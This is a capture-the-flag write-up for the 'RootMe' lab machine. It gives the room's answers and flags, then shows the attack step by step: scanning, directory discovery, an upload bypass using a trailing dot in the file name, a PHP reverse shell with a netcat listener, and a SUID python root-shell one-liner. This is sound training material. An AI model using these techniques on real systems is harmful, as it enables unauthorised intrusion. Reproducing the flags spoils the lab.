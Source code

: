 # RootMe 🏴‍☠️

**Date:** 09.02.2025  
**Difficulty:** Easy

---
## Questions and Answers ✅

1. **Scan the machine, how many ports are open?**  
   `2`
2. **What version of Apache is running?**  
   `2.4.29`
3. **What service is running on port 22?**  
   `ssh`
4. **What is the hidden directory?**  
   `/panel/`
5. **user.txt (flag)?**  
   `THM{y0u_g0t_a_sh3ll}`
6. **Search for files with SUID permission, which file is unusual?**  
   `/usr/bin/python`
7. **root.txt (flag)?**  
   `THM{pr1v1l3g3_3sc4l4t10n}`

---
## Obtained Information 🔍

- **Target IP Address:** `<IP_ADDRESS>`
- **Open ports:** `22` (SSH), `80` (HTTP)
- **Website allows unauthenticated file uploads**, and uploaded files can be accessed.

---
## Process 🕵️‍♂️

### **1. Scanning the machine with Nmap**
```bash
nmap -sV -sS <IP_ADDRESS>
```
**Results:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
This answers three questions at once!

### **2. Discovering hidden directories with Gobuster**
```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x .js,.php
```
**Results:**
```bash
/index.php            (Status: 200)
/.php                 (Status: 403)
/uploads              (Status: 200)
/css                  (Status: 200)
/js                   (Status: 200)
/panel                (Status: 200) ✅
/server-status        (Status: 403)
```
We found `/panel/` as the hidden directory!

### **3. Exploiting Unauthenticated File Upload**
Since the web server allows file uploads, we set up a listener for incoming connections:
```bash
nc -vnlp 1234
```
Then, we upload a **reverse shell script**:
🔗 [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

### **4. Bypassing File Upload Restrictions**
Uploading a `.php` file directly is blocked. However, adding a dot (`.`) at the end of the filename (`shell.php.`) bypasses this restriction!

### **5. Getting a Shell and Finding the First Flag**
Once the reverse shell is active, we locate `user.txt`:
```bash
find / -type f -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```
✅ First flag obtained!

### **6. Searching for SUID Files**
We look for files with the **SUID bit**, which allows privilege escalation:
```bash
find / -user root -perm /4000 2>/dev/null | grep -v "Permission"
```
✅ Unusual file found: `/usr/bin/python`

### **7. Exploiting SUID Python for Privilege Escalation**
This file is listed on **GTFOBins**, meaning it can be abused to escalate privileges:
> *If the binary has the SUID bit set, it does not drop elevated privileges and may be abused to access the file system or maintain privileged access as a SUID backdoor.*

Running the following command gives us a root shell:
```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami  
root
```
✅ We now have root access!

### **8. Retrieving the Final Flag**
With root access, we find `root.txt` in `/root/`:
```bash
cat /root/root.txt
```
✅ Final flag obtained!

---
## Reflection & Questions for Further Research 🤔💡

- Why are PHP scripts executed when accessed, but Python or Bash scripts are not?

---
## Summary & Takeaways 📌📖

- **Found hidden directories using Gobuster.**
- **Learned how to bypass file upload restrictions using a trailing dot (`.`).**
- **Used GTFOBins to exploit SUID binaries for privilege escalation.**
- **Understood how `/usr/bin/python` can be abused when SUID is set.** (BTW. I thought that bin in directory means trash bin or something 😆)
- **Realized the importance of checking for SUID binaries in privilege escalation.**